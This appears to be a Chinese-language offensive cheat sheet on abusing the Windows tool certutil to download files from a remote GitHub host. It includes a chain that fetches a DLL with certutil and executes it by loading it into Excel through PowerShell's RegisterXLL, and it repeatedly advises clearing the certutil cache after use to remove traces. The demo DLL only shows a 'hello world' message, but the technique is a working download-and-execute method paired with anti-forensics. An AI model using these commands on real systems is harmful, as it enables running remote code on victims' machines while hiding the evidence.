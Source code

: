 ## certutil简介

[certutil简介](https://www.cnblogs.com/lfoder/p/8241548.html)

支持环境: XP  -  Windows 10 全系统

```certutil /?```  # 帮助


下载文件： 

```certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt file.txt```

**清缓存** ```certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/version.txt delete```

**使用后需要注意清除缓存**

测试系统安装Office软件，下载执行dll对应的powershell代码如下：


     ```certutil.exe -urlcache -split -f https://raw.githubusercontent.com/3gstudent/test/master/msg.dll```
     
PS   ```$path="C:\Users\Administrator\msg.dll"```

PS   ```$excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))```

PS   ```$excel.RegisterXLL($path)```

excel 弹出 ```hello world,I'm 3kb```

**使用后需要注意清除缓存**

查看利用certUtil下载文件的缓存记录：

certutil.exe -urlcache *

缓存文件位置：

%USERPROFILE%\AppData\LocalLow\Microsoft\CryptnetUrlCache\Content
